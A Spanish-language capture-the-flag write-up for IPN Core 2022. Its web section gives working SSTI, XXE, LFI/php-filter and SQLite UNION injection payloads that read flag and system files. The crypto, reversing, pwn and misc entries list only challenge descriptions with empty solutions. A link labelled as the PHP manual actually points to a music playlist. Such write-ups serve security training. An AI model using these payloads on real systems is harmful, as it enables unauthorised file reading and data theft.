



# IPN Core 2022 CTF - Writeup

## Resumen de vulnerabilidades

- SSRF
- SSTI
- XXE
- LFI + php filters
- SQLi

## Web

### Pentest web Parte 1

#### Stats

| Attribute | Info |
|---|---|
| Description | Uhmm no necesitas contexto... |
| Files | [web_pentest_web_1.zip](files/web_pentest_web_1.zip) |

#### Solution

Al interactuar con la página web, se puede visualizar en el código fuente un comentario que indica el lugar donde se encuentra ubicada la bandera.



Tomando en cuenta esto, se pudiera sospechar de algún tipo de inclusión de archivos locales o algo por el estilo. Continuando con la interacción del sitio se puede visualizar una excepción del método `fopen` de php el cuál esta recibiendo el contenido del input disponible.


Si se busca en el [manual de php acerca de la función](https://open.spotify.com/playlist/0VHNhrWyp0X3CdCdhyRQyI?si=73871d004a434312), se puede visualizar que esta recibirá como parámetro una ruta de un directorio, por lo que si se emplea un archivo existente como `/flag.txt` se podrá visualizar su contenido, realizando la petición con `curl` o a través de algún proxy como `BurpSuite`.



Flag: `CTF{9700cbd3cd4dc8c2010953ca1a029bd0}`

### Pentest web Parte 2

#### Stats

| Attribute | Info |
|---|---|
| Description | Uhmm nop, no necesitas descripción... ¿o sí? |
| Files | [web_pentest_web_2.zip](files/web_pentest_web_2.zip) |

#### Solution

Se puede visualizar un input el cuál al enviar/completar la petición se refleja nuestro contenido.


Al tratar de reconocer las tecnologías que "hostean" el reto, se pudieron identificar por las cabeceras de las respuestas del servidor la versión de una librería y versión de Python (`Werkzeug/2.2.2 Python/3.8.14`).


Al identificar esto, lo primero que pudiera llegarse a considerar es que el código HTML este siendo pre-procesado por esta librería de Python. En el proceso de ese pre-procesamiento se pueden encontrar vulnerabilidades de inyección de plantillas (SSTI), por lo que al hacer uso de `{{7*7}}` en el campo de nombre se pudo validar que se trataba de esto en cuestión.


Utilizando el siguiente payload se podía leer la bandera:

```python
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read() }}
```


Flag: `CTF{d4bac92d0e15c50d3431043e27c62163}`

### Pentest web Parte 3

#### Stats

| Attribute | Info |
|---|---|
| Description | Es divertido el pentest web desde Blackbox ¿no? :) |
| Files | [web_pentest_web_3.zip](files/web_pentest_web_3.zip) |

#### Solution

Al entrar en la web se visualizan dos enlaces en los cuales, en uno de ellos nos revela la ubicación de la flag (`/flag`) y en el otro nos permite interactuar con un submit brindándonos una caja de texto en la que podamos mandar un saludo (`/rest`). Al mandar una prueba se puede visualizar una excepción relacionada con XML.


A lo que lleva a concluir de una vulnerabilidad de tipo XXE, al buscar y encontrar el siguiente payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/flag.txt"> ]>
<data>&example;</data>
```

Se pudo obtener la bandera incluyendo el archivo y desplegando el archivo indicado.


Flag: `CTF{e4b50e71a8f7ec1f5c3b8db6a91ce2ff}`

### CIC Blog

#### Stats

| Attribute | Info |
|---|---|
| Description | ¿Qué tal? Estoy por terminar mi blog y un colega de {\|4_p4nd1\|\|4_m4nt3q1\|\|4}  me hizo favor de revisar el sitio, había encontrado algo pero aún no termina.  Mientras tanto me gustaría saber que encontró, ¿me ayudas también a revisarlo? |
| Files | [web_cic_blog.zip](files/web_cic_blog.zip) |

#### Solution

Al buscar información dentro del código fuente se puede visualizar un wrapper de contenido dentro de la barra lateral izquierda, indicando mediante el parámetro `page` la página a cargar.


Al realizar una prueba para buscar incluir un archivo de sistema se puede visualizar su contenido `/wrapper.php?page=/etc/passwd`:


Posteriormente, al no encontrar la bandera dentro de la raíz del sistema (`/flag.txt` o algo similar), se buscó fuzzear el sitio para ver si se encontraba información al respecto.

```bash
ffuf -c -ic -u "http://192.168.111.153:8000/FUZZ" -w /usr/share/wordlists/dirb/common.txt
```


Encontrando así varias entradas incluyendo `robots.txt`, la cual exponía mediante una regla de `Disallow` la ruta de la bandera.


Al incluir la ruta de la bandera se podía procesar su contenido `/wrapper.php?page=/var/www/flag.php` mencionando como pista "pensar en algo diferente".


Dado que los archivos php son procesados del lado del servidor y no se puede visualizar su contenido, fue necesario usar un [filtro de php](https://www.php.net/manual/en/filters.convert.php) para poder extraer su contenido real, mediante la petición:

```txt
/wrapper.php?page=php://filter/convert.base64-encode/resource=/var/www/flag.php
```

Extrayendo así el contenido del archivo encodeado en base64, para después desencodearlo y así encontrar el valor de la bandera.


```bash
echo "PHN0eWxlPgogICAgLnBlcnJpbiB7CiAgICAgICAgdGV4dC1zaGFkb3c6IDJweCAycHggcmVkOwogICAgfQo8L3N0eWxlPgo8ZGl2IGNsYXNzPSJtYWluLXdyYXBwZXIiPgo8aDEgY2xhc3M9InBlcnJpbiI+QWggcGVycmluIGxlIHNhYmVzIGFsIExGSTwvaDE+CjxoMiBjbGFzcz0icGVycmluIj5ObyBjcmVhcyBxdWUgdmEgYSBzZXIgdGFuIGbDoWNpbCBvYnRlbmVyIHR1IGZsYWc8L2gyPgo8P3BocAogICRmbGFnID0gIkxQTXs0aF9wM3JyMW5fbGYxXzRfN2gzX3cxbn0iOwoJZWNobygiwr9ZYSBwZW5zYXN0ZSBlbiBhbGdvIGRpZmVyZW50ZT8iKTsKPz4KPC9kaXY+" | base64 -d
```



Flag: `LPM{4h_p3rr1n_lf1_4_7h3_w1n}`

### Tacos Don Chano

#### Stats

| Attribute | Info |
|---|---|
| Description | Me hice la promesa de ya entrar a mis clases de desarrollo web y le hice a mi tío Chano un sitio para que que pueda gestionar sus órdenes de tacos, pero de un momento a otro se ha estado comportando medio raro... y estoy teniendo errores inesperados, ¿qué crees que pueda estar mal? |
| Files | [web_tacos_don_chano.zip](files/web_tacos_don_chano.zip) |

#### Solution

Se permite interactuar con el sitio mediante un input que en resumen manda una petición a `/orden.php?id=1` indicando el supuesto id de la orden de tacos, modificando el id se pueden visualizar todas las órdenes disponibles en la plataforma la cuál se puede sospechar que está interactuando con una base de datos.

Enviando algún caracter diferente a un número (`/orden.php?id='`) se puede visualizar una excepción de SQL de la cuál se expone la versión/tipo de base de datos (SQLite3), dando paso a sospechar que se trata de una inyección SQL.


Por lo que se podría automatizar el proceso con `sqlmap` o hacer a mano mediante:

1. Identificación de número de columnas.

```text
/orden.php?id=1 UNION SELECT 1,2,3-- -
```


2. Identificación de columnas que permitan caracteres.

```text
/orden.php?id=1 UNION SELECT 'a','a','a'-- -
```


3. Identificación de tablas.

```text
/orden.php?id=1 UNION SELECT (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),'a','a'-- -

Y:

/orden.php?id=1 UNION SELECT (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1),'a','a'-- -

Para identificar otras tablas.
```


4. Identificación de nombre de columnas en tabla identificada (opcional).

```text
/orden.php?id=1 UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flag'),'a','a'-- -
```


5. Extracción de valores.

```text
/orden.php?id=1 UNION SELECT (SELECT * FROM flag),'a','a'-- -
```


Flag: `LPM{54l3n_2_d3_5u4p3rr0_p4r4_3l_j0v3n}`

## Crypto

### Encoding

#### Stats

| Attribute | Info |
|---|---|
| Description | ¿Qué tanto sabes de encoding? |
| Files | [crypto_encoding.txt](files/crypto_encoding.txt) |

#### Solution

### Esoteric0

#### Stats

| Attribute | Info |
|---|---|
| Description | ¡¡Esto es del diablo!! ¿puedes recuperar la flag? |
| Files | [crypto_esoteric.txt](files/crypto_esoteric.txt) |

#### Solution

### AESy

#### Stats

| Attribute | Info |
|---|---|
| Description | ¿Podrás romper la cookie y obtener acceso como admin? |
| Files | [crypto_aesy_chall.py](files/crypto_aesy_chall.py) |

#### Solution

### RealBabyRSA

#### Stats

| Attribute | Info |
|---|---|
| Description | RSA... ¡que común! |
| Files | [crypto_encoding.txt](files/crypto_encoding.txt) |

#### Solution

### Baby-FA

#### Stats

| Attribute | Info |
|---|---|
| Description | ¿Seguirás el camino fácil?<br>La flag es en minúsculas |
| Files | [crypto_baby_fa.txt](files/crypto_baby_fa.txt) |

#### Solution

## Reversing

### T3SLA

#### Stats

| Attribute | Info |
|---|---|
| Description | Cadena fue de visita a la ESCOM en su nuevo Tsl4. Pero olvidó sus llaves en el laboratorio de redes y estará cerrado hasta mañana por el paro :( . Por suerte tu eres su amigo y le ayudarás a abrir el auto. Lo primero será revisar el firmware buscando la función encargada de validar la llave. |
| Files | [reversing_t3sla_chall](files/reversing_t3sla_chall) |

#### Solution

### T3SLA - Parte 2

#### Stats

| Attribute | Info |
|---|---|
| Description | Cuando la llave se comunica con el auto lo primero que hace es enviar una clave de 4 dígitos (que llegan a la función de chequeo como los primeros 4 parámetros).  ¿Cuáles son esos 4 dígitos correctos? <br> La flag es: flag{EncontrasteMiPin=PIN} Reemplazando PIN por los 4 dígitos correctos. <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto T3SLA** |
| Files | - |

#### Solution

### T3SLA - Parte 3

#### Stats

| Attribute | Info |
|---|---|
| Description | Ahora que conocemos el PIN, lo único que nos resta para poder abrir el auto es conocer el password que se envía junto a la clave de 4 dígitos. Esta password la lee la misma función de chequeo. La flag es la password. <br> ej.  flag{PASSWORD} <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto T3SLA** |
| Files | - |

#### Solution

## Pwning

### BabyPWN

#### Stats

| Attribute | Info |
|---|---|
| Description | Este es otro reto de PWN más, pero no te apures te estaré guiando :) <br> El primer paso para conseguir RCE es buscar algún bug de corrupción de memoria que nos permita tomar control del flujo de ejecución. <br> ¡Suerte! |
| Files | [pwn_babypwn_chall](files/pwn_babypwn_chall) [pwn_babypwn_chall.c](files/pwn_babypwn_chall.c) |

#### Solution

### BabyPWN - Parte 2

#### Stats

| Attribute | Info |
|---|---|
| Description | Para mala suerte la función cuenta con un mecanismo de seguridad conocido como stack canary que es una variable en la pila con un valor que si se modifica entonces el programa sabe que esta bajo un posible ataque. La buena noticia es que este stack canary tiene siempre el mismo valor.  Esta vez, cuando hagas el overflow asegúrate de escribir sobre el stack canary el valor correcto. <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto BabyPWN** |
| Files | - |

#### Solution

### BabyPWN - Parte 3

#### Stats

| Attribute | Info |
|---|---|
| Description | Como último paso necesitamos controlar ese flujo de ejecución;  por suerte, el programa imprime la cadena que le dimos usando la función system y como parámetro le pasa una cadena que almacena... ¡¡¡EN LA PILA!!!,  por lo que con nuestro overflow podremos modificar ese argumento para ejecutar system con lo que nosotros queramos ¡Suerte! :) <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto BabyPWN** |
| Files | - |

#### Solution

## Misc

### Bot Calculadora

#### Stats

| Attribute | Info |
|---|---|
| Description | Acabamos de descubrir e implementar una característica de Node.js del módulo vm y creamos una calculadora para usarlo, échale un lente crack. <br> ***NOTA: ÉSTE RETO TIENE PUNTAJE DINÁMICO,  MIENTRAS MÁS PERSONAS LO RESUELVAN EL PUNTAJE IRÁ DISMINUYENDO*** <br> https://t.me/node_vm_bot |
| Files | [misc_bot_bot_calculadora.zip](files/misc_bot_bot_calculadora.zip) |

#### Solution